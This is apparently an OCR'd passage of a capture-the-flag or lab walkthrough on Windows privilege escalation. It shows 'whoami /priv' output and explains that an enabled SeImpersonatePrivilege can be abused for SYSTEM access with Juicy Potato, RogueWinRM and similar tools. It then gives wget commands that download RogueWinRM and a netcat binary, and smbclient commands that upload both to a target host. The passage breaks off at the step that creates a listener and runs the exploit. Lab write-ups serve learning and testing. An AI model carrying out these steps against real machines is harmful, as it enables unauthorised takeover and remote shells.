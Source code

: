 #### **Determine privileges assigned to current account ()** <a href="#saptvu6owteo" id="saptvu6owteo"></a>

whoami /priv

PRIVILEGES INFORMATION

\----------------------

Privilege Name Description State

\============================= ========================================= ========

SeAssignPrimaryTokenPrivilege Replace a process level token Disabled

SeIncreaseQuotaPrivilege Adjust memory quotas for a process Disabled

SeAuditPrivilege Generate security audits Disabled

SeChangeNotifyPrivilege Bypass traverse checking Enabled

SeImpersonatePrivilege Impersonate a client after authentication Enabled

SeCreateGlobalPrivilege Create global objects Enabled

SeIncreaseWorkingSetPrivilege Increase a process working set Disabled

**SeImpersonatePrivilege**. Any process holding this privilege can impersonate (but not create) any token for which it is able to gethandle. You can get a privileged token from a Windows service (DCOM) making it perform an NTLM authentication against the exploit, then execute a process as SYSTEM. Exploit it with[ Juicy Potato](https://github.com/ohpe/juicy-potato),[ RogueWinRM](https://github.com/antonioCoco/RogueWinRM) (needs winrm disabled),[ Sweet Potato](https://github.com/CCob/SweetPotato),[ PrintSpoofer](https://github.com/itm4n/PrintSpoofer).

#### **Attempt privilege escalation using**[ **RogueWinRM**](https://github.com/antonioCoco/RogueWinRM) **()** <a href="#nrhh1efqi8ed" id="nrhh1efqi8ed"></a>

* Clone Git respository.

wget https://github.com/antonioCoco/RogueWinRM/releases/download/1.1/RogueWinRM.zip

unzip RogueWinRM.zip

**Download Windows netcat**

wget https://github.com/int0x33/nc.exe/blob/master/nc64.exe

**Upload files to target host via SMB**

smbclient //10.10.91.212/nt4wrksv

Password for \[WORKGROUP\kali]:

Try "help" to get a list of possible commands.

smb: \\> put RogueWinRM.exe

smb: \\> put nc64.exe

**Create listener and execute exploit on target host**
